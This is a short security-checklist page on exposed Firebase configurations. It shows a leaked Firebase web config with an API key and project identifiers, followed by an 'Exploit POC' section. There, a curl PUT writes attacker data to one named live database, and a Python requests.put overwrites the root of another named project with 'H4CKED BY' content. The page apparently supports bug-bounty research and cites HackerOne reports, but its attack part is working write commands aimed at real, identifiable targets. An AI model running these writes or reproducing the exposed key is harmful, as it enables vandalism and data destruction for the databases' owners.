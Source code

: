 # Firebase

* [ ] &#x20;Exposed Firebaseio Configurations

**Example**

```javascript
$(document).ready(function() {
// Your web app's Firebase configuration
var firebaseConfig = {
apiKey: "AIzaSyCRrABG3_Sc7xHar70hFyjHjEOJ071rbJ4",
authDomain: "mtn-pulse-uganda.firebaseapp.com",
databaseURL: "https://mtn-pulse-uganda.firebaseio.com",
projectId: "mtn-pulse-uganda",
storageBucket: "mtn-pulse-uganda.appspot.com",
messagingSenderId: "242450689592",
appId: "1:242450689592:web:bdd1173378d94d733800cd",
measurementId: "G-KHPT64LJ5L"
};
```

**Exploit POC**

```
curl "https://mtn-pulse-uganda.firebaseio.com/poc1.json" -XPUT -d '{"attacker":"maliciousdata"}'
Your data will be uploaded to https://mtn-pulse-uganda.firebaseio.com/poc1.json
```

```python
import requests
data= {"Exploit":"Successfull", "H4CKED BY": "Sheikh Rishad"}
reponse = requests.put("https://api-project-615509201590.firebaseio.com/.json", json=data)
```

**References**:

{% embed url="https://hackerone.com/reports/1447751" %}

{% embed url="https://hackerone.com/reports/1065134" %}
